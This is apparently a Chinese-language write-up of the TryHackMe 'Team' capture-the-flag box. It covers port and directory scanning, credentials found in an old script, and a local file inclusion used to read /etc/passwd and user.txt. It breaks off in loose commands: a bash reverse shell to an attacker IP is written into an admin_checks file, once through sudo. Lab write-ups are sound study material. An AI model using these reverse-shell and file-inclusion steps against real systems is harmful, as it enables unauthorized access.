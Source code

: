 # Team
平台：tryhackme
难度：easy

### 扫描

**快速扫描**
```
sudo nmap -Pn --min-rate 10000 -p- 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
```

**版本扫描**
```
sudo nmap -p 21,22,25,80,110 -Pn -sC -sV -O 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.3
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
25/tcp  open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
110/tcp open  pop3?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|general purpose
Running: Actiontec embedded, Linux 2.4.X
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**漏洞扫描**
```
sudo nmap -p 21,22,25,80,110 --script=vuln 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
110/tcp open  pop3
```

**gobuster扫描**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.248.178/ -t 30
```
扫不到。(也不是说扫不到，只是结果没有参考意义。)

- 21端口的ftp不能匿名登录
- 80端口是默认的apache2页面
- 默认页面的源代码有一句话，大致意思就是把team.thm添加到hosts里
- 再次访问http://team.thm，可以进到一个新的页面。
- 这里出现了域名，可以对其进行域名爆破

**对team.thm进行爆破**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://team.thm/ -t 30
```
结果：
```
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
```
**对scripts目录进行二次爆破**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://team.thm/scripts/ -t 30 -x php,txt,html
```
输出
```
/.php                 (Status: 403) [Size: 273]
/.html                (Status: 403) [Size: 273]
/script.txt           (Status: 200) [Size: 597]
```
查看`http://team.thm/scripts/script.txt`，发现有一句`Note to self had to change the extension of the old "script" in this folder, as it has creds in`，等于说这里有个old的script文件里面有用户的凭据。
文件script.old：
```
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
```
登陆ftp试试：

ftp登录的时候看着点，有一句话：Remote system type is UNIX.Using binary mode to transfer files.
需要转换为ascii模式：
```
ftp>ascii
```
才能使用命令。
有个文件:
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.
Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.
Gyles
id_rsa放在配置文件里了

VHOST扫描：
```
gobuster vhost -u http://team.thm/ -w deepmagic.com-prefixes-top50000.txt -k --append-domain
```
扫出来了dev.team.thn是200，加到hosts里，访问一下
`http://dev.team.thm/`点一下页面的链接变为`http://dev.team.thm/script.php?page=teamshare.php`
根据提示这个地方可以变为`http://dev.team.thm/script.php?page=../../../etc/passwd`(文件包含漏洞)，这个地方输出目标系统的/etc/passwd。
和前面的话相互印证

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
可以看到使用/bin/bash的两个低权限用户gyles和dale

使用同样的方法读出user.txt:
```
../../../../home/dale/user.txt
```
但是root.txt不能直接读出来，还是要想办法拿到反shell

拿不到反shell，因为文件包含只支持php://filter和本地文件包含，不能写一个恶意文件或是远程包含恶意文件
根据前面的话可以知道，有机会读到id_rsa私钥:
```
?page=
```



echo "bash -i >& /dev/tcp/10.17.6.249/1234 0>&1" > /home/gyles/admin_checks

python3 -c 'import pty;pty.spawn("/bin/bash")'

sudo sh -c 'echo "bash -i >& /dev/tcp/10.17.6.249/1234 0>&1" > /home/gyles/admin_checks'